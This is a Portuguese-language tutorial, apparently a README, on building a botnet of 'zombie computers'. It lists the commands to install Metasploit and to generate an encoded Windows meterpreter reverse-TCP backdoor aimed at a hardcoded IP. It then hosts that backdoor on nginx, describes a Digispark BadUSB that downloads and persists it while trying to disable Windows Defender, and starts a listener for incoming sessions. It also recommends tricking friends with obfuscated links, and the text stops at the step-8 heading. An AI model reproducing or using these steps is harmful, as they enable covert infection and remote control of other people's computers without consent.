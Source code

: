 PASSOS 

1 - Criar uma INSTANCIA e definir um IP estatico

    Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

    1 - Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

    2 - Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.

2 - Instalar METASPLOIT e NGINX


        Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

        1 - Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

            $ ssh usuario@instancia 

            apos se conectar rode instale o nginx ou apache como preferir

            $ sudo apt-get install -y nginx

            agora os comandos abaixo é para instalar o METASPLOIT

            $ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

            conceder permisão de execução para o instalador

            $ chmod +x msfinstall

            agora execulte o mesmo

            $ ./msfinstall

            Efeito isso e não deu nenhum error é so verificar se ta tudo certo.
            Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

            $ msfconsole --version

3 - Criar BACKDOOR REVERSE


        1 -  Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO,
        qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida. 

        se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

        $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe

        Rodando um ls verá que o arquivo payload.exe foi criado


4 - Configurar NGINX para download do backdoor

        1 - Vamos criar uma copia dele dentro da nossa pasta do servidor 

        $ sudo cp ./payload.exe /var/www/html/payload.exe

        3 - feito isso nosso arquivo vai esta disponivel para download em 

        http://34.97.212.80/payload.exe


5 - Digispark
    
        Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir".
        Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 
        
        Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 
        Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador. 
        
        Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. 
        
        com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 
        
        Agora bora lá, para isso você vai precisar de um Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16 
        
        https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark
        
        Com ele em mãos agora você vai precisar carregar neles os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos deste tutorial e voltar aqui
        
        https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85/
        
        Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar configurar o uDev 
        https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html
         

6 - Criar Payload para injectar o BACKDOOR 

          Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha
        
        Abra o Arduino IDE e cole o payload que vou deixar aqui para vocês
        
        copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo
        
        E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


7 - INICIAR ESCULTA DAS CONEXOES DO BACKDOOR

        Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta
        
            em acesso SSH a nossa instancia iniciamos o console do Metasploit executado
            
            $ msfconsole
        
                depois de iniciado
                
                msf > use exploit/multi/handler   
                 msf >set PAYLOAD windows/meterpreter/reverse_tcp    
                 msf >set LHOST 34.97.212.80  
                 msf >set LPORT 5000   
                 msf >set ExitOnSession false   
                 msf > exploit -j -z   
                 
              em seguida 
              
                msf> sessions -l 
                
                para listar nossas conexões de entrada até o momento
    
8 - Obter acesso a uma maquina infectada
